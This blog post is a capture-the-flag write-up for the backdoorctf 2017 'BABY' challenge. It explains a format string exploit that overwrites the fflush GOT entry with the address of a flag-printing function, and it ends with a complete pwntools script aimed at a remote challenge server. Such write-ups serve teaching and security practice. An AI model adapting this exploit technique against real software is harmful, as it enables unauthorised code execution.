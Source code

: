 ```yaml
---
layout: post
title: backdoorctf 2017 - BABY 0x41414141 Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```




Executing the binary for the first time we have this behaviour:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/baby-1.png" alt="Screenshot showing program prompt to enter user name" width="603" height="83">

Ok, cool, decompile it.

This is the main function:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/baby-2.png" alt="Code snippet showing decompiled main() function with vulnerable printf() and fflush() calls" width="603" height="204">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/baby-3.png" alt="Screenshot of decompiler showing 'flag(void)' function definition, which executes cat flag.txt" width="603" height="238">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints 0x41414141.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that %n writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

{% highlight python %}
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()
{% endhighlight %}

